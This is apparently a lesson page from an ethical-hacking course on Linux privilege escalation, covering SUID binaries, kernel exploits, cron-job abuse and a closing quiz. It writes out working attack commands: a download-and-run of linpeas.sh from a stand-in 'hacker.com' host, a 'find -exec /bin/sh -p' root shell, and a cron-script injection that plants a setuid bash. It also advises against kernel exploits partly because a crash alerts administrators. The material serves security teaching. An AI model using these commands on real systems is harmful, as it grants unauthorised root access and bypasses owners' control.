

# Linux Privilege Escalation (SUID, Kernel Exploits)

Gaining access to a system is often only the first step. You usually enter as a low-privileged user (like `www-data` or a limited local user). **Privilege Escalation** is the process of moving from a low-level account to **Root** (System Administrator).

---

## 1. Automated Enumeration

Before manual checks, hackers often use automated scripts to find common misconfigurations.

<TerminalWindow cmd="wget http://hacker.com/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh" output="[!] Checking for SUID binaries...
[!] Checking for Writeable /etc/passwd...
[!] Checking for Kernel vulnerabilities... (CVE-2021-3156 found)
[!] Root path identified!" />

---

## 2. Exploiting SUID Binaries

As discussed in the Linux Fundamentals module, **SUID (Set User ID)** binaries run with the owner's permissions. If a binary that allows command execution (like `find`, `vim`, or `bash`) has the SUID bit set to root, it's a direct path to victory.

### Finding SUID Files:
<TerminalWindow cmd="find / -perm -u=s -type f 2>/dev/null" output="/usr/bin/passwd
/usr/bin/chfn
/usr/local/bin/find [!] SUID BIT DETECTED" />

### Exploiting `find`:
If `find` has the SUID bit, we can use the `-exec` flag to run a shell as root.
`find . -exec /bin/sh -p \; -quit`

---

## 3. Kernel Exploits

The Kernel is the core of the OS. If it has a bug, you can crash the system or gain root access. 
- **The Process**: Check the OS version (`uname -a`), find a matching exploit on **Exploit-DB**, compile it, and run it.

<InfoBox type="warning">
**Caution:** Kernel exploits are unstable. They can crash the server ("Kernel Panic"), which will alert system admins and potentially destroy your access. Use them only as a last resort.
</InfoBox>

---

## 4. Exploiting Cron Jobs

Cron jobs are scheduled tasks. If a task runs as root and runs a script that **you** can edit, you can gain root access.

**Vulnerable Entry in `/etc/crontab`:**
`* * * * * root /home/user/backup.sh`

**Attack:**
`echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" >> /home/user/backup.sh`

Wait 1 minute, then run `/tmp/rootbash -p` to get a root shell.

---

## Visualizing the Escalation

---

## Knowledge Check

<Quiz 
  question="Which command is used to check the Linux kernel version and system architecture?"
  options={["whoami", "lsblk", "uname -a", "cat /etc/os-release"]}
  answer="uname -a"
  explanation="uname -a provides detailed information about the kernel version, which is essential for identifying potential kernel exploits."
/>
